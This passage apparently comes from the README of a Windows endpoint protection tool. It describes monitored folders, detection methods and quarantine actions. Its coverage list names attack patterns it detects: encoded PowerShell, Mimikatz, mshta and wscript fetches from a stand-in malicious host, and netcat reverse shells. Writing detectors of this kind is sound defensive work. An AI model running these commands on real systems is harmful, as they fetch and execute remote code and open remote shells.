 **Folders monitored**:
- Desktop
- Downloads
- Temp directories
- Public Downloads

**Detection methods**:
- File signature analysis (MZ headers, PE files)
- Entropy calculation (>7.8 = suspicious)
- Extension blocking (.exe, .bat, .ps1, etc.)
- Content analysis for suspicious patterns

**Actions taken**:
- Quarantine suspicious files
- Block execution of unknown executables
- Create backups before removal
- Log all blocked activities

## 🎯 Attack Surface Coverage

### PowerShell Attacks
- **Base64 encoded commands**: `powershell -enc`
- **Expression execution**: `Invoke-Expression`, `IEX`
- **Mimikatz**: `Invoke-Mimikatz`
- **Reflective injection**: `Invoke-ReflectivePEInjection`

### Script Execution
- **MSHTA remote**: `mshta http://malicious.com/script.hta`
- **WScript remote**: `wscript http://malicious.com/script.js`
- **CScript remote**: `cscript http://malicious.com/script.vbs`

### Network Tools
- **Reverse shells**: `nc.exe -e cmd`, `ncat -e powershell`
- **Telnet**: `telnet -e cmd`
- **Remote execution**: `psexec`, `wmic process call`

### Persistence Mechanisms
- **Registry autorun**: Suspicious entries in Run keys
- **Startup folders**: Malicious files in startup directories
- **Scheduled tasks**: Tasks with PowerShell payloads
- **Service installation**: Malicious service creation

### Memory Injection
- **Shellcode patterns**: Common exploit patterns
- **High entropy**: Packed/encrypted content
- **Suspicious strings**: Malware indicators in memory
- **Injected DLLs**: Reflective DLL injection

## ⚡ Performance Characteristics
